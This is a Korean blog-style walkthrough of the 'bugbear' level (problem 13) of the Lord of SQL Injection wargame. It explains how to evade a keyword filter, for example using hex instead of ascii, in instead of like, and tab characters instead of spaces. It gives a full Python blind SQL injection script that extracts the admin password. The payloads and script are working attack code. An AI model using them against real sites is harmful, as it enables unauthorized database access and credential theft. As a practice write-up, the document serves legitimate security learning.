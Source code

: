 ```yaml
---
title: LOS - 13번 bugbear
category: Lord of SQL Injection
---
```


# [13] bugbear

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbLtSV8%2Fbtrnpm1hg3C%2F5J4zNxs1CJ1BkZonWk6lS1%2Fimg.png">

## 풀이

preg_match에 뭐가 좀 많다.

하나하나 살펴본다.

<br>

필터링 사항이다.

① 싱글쿼터

② substr

③ ascii

④ =

⑤ or/and

⑥ 공백

⑦ like

⑧ 0x

<br> 

지금까지의 필터링 사항을 몽땅 다 집어넣었다.

<br>

추가로 like에 대한 필터링까지 적용되었는데, 이에 대한 우회 방법은 다음과 같다.

① like ⇒ in

- ex. id like "admin" ⇒ id in ("admin")

<br> 

그리고 또 한가지 특이사항이 있다.

저번 문제에서는 ascii를 ord로 우회했었다.

그러나 이번 문제에서는 or을 필터링하고 있기 때문에 ord도 해당 필터에 걸려버린다.

(이 부분을 간과해서 시간을 잡아먹었다...)

<br> 

따라서 이번 문제에서는 ascii를 **hex**로 우회해준다.

hex 함수는 이름 그대로, 문자를 ascii가 아닌 hex로 나타내주는 함수이다.

hex의 반환 타입은 string이기에 단순 숫자로 취급하여 대소 비교를 해줄 수는 없다.

때문에 in을 사용하여 문자열 일치 확인을 해줄 것이다.

이 때, 비교 대상으로 사용할 ascii값도 hex로 변환하여 비교해준다.

- ex. hex(mid(...)) in (hex(1))

<br>

한편, 준비된 쿼리문은 12번 문제와 동일하기 때문에,

쿼리문 변조 방향에 대한 상세한 설명은 이전 포스팅으로 대체한다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```
① or/and ⇒ \|\|, %26%26

② 공백 ⇒ %09

③ like ⇒ in

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① or/and ⇒ \|\|, %26%26

② 공백 ⇒ %09

③ like ⇒ in

④ substr ⇒ mid

⑤ ascii ⇒ hex

 
<br>
 

**수정된 Python 자동화 코드의 전문**이다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img width src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbnT6Iq%2FbtrnrkVXp3E%2FB0kaNZJZYO5fBkBBsnzkh0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `52dc3991` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdC3vzR%2FbtrnktUFiVR%2FEKEDpBeOAVsMfdTukaBKY0%2Fimg.png">
